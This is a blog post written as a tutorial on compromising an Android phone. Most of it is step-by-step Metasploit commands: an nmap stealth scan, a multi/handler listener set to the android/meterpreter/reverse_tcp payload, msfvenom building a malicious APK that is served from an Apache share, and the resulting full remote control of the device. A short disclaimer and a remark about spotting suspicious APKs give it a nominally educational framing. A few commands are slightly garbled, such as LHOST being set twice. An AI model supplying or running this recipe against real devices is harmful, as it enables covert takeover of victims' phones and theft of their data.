






Worldwide Mobile Operating Systems Market Share
African Mobile Operating Systems Market Share
Looking at the graphs above my reaction is:
From the Situation Room
It would be not a long shot to assume that you do own a Mobile device, and you are currently using it to view this blog.
How often have you received a SMS that seemed off, or was something that you would not expect?
Often times SMSs can have malicious links embedded in them, or can contain spam which might compromise your device.
Clicking on such links or installing unknown apps on your device, you might feel like doing this!

Onward to the exploit!
Now on to the actual HACKING!
DISCLAIMER: DO NOT TRY THIS AT HOME OR ON PUBLIC NETWORKS!
Step 1:
Run the nmap command as shown below
nmap -sSnmap is a Security Scanner that allows us to scan networks with different options. The flags denoted by -sS are the most common and initiate a stealthier scan of the network.
Fire up the Metasploit console by running this command on your Kali Linux VM's terminal
msfconsoleYour terminal should now look something like this

Step 2:
Your terminal should have "msf6" as its prompt now. This means you can begin to use Metasploit commands. Type the command below.
msf6> use exploit/multi/handlerThe Multi Handler command launches a stub that runs outside the Framework. This command launches a payload that is specific to our specification.

Step 3:
msf6> search android/meterpreterMeterpreter is a tool that is part of the Metasploit Framework which allows you to take advantage of, as well as, find vulnerabilities in a system. This penetration testing tool can easily take hold of victim's resources as needed. Meterpreter utilises an in-memory injection which writes nothing to disk. This allows for the exploit to run without being detected by normal means. A new process is not created, rather it injects itself into a compromised process. For this reason also the forensic footprint left behind by the Meterpreter is extremly limited.
Step 4:
msf6> set payload android/meterpreter/reverse_tcpWhen the host initiates a connection, that is called a forward connection. However, when the opposite is done, a server initiates the connection to a host, then it is called a reverse connection
Firewalls work on the basic principle of blocking all incoming connection. So all incoming connections (reverse connections) are blocked by the firewall. However, if a host initiates a connection (forward connection) it is allowed and the return for the connection initiated by the host will be permitted.
reverse_tcp is basically instead of the attacker initiating the connection which will obviously blocked by the firewall instead, the device initiates the connection to the attacker, which will be allowed by the firewall and the attacker then take control of the device and pass commands. It is a type of reverse shell.
Step 5:
msf6> show optionsThe above command shows the current options for the payload. These can then be changed as shown below.
Step 6:
msf6> set LHOST ip_addressStep 7:
msf6> set LHOST port_numberStep 8:
msf6> exploitThis command begins the exploit and the Listener begins to "listen" for incoming requests sent by the victim's Android device.
Step 9:
In a new terminal start up the Metasploit console once again, and input the following command
msf6> msfvenom –p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 R > /var/www/html/share/filename.apkThis command is used to create the malicious payload for the Android device. The APK file is saved to the share folder of the Apache server on our Kali Linux VM. A screenshot is show below.

If you see how small this file is, then this should be a red flag for you as a victim in the future.
You should feel like this if you do come across such a file in the wild.
The malicious APK can now be accessed on the Android device and installed. To do this, run the following command below.
service apache2 startAccessing the following link on the Android device's browser will open up the share folder.
10.0.2.15/share/This is shown below.
Once the victim downloads the file and opens it, they will see the following installation screen.
If the malicious file is installed, it is game over!
The hacker is going to be like
From here on the hacker will have full control of the Android device. A list of commands can be accessed for meterpreter by typing the following command
meterpreter --helpA screenshot is shown below

A more comprehensive list of commands is shown below which was taken from the documentation of Metasploit
"We're always chasing the bad guys – the good guys are never ahead. We're not the ones who wrote these exploits. They are often found in the wild and the defenders are generally following the black hats."
- H. D. Moore, Network Security Expert, Founder of the Metasploit Project
Sources: · GIFs by Tenor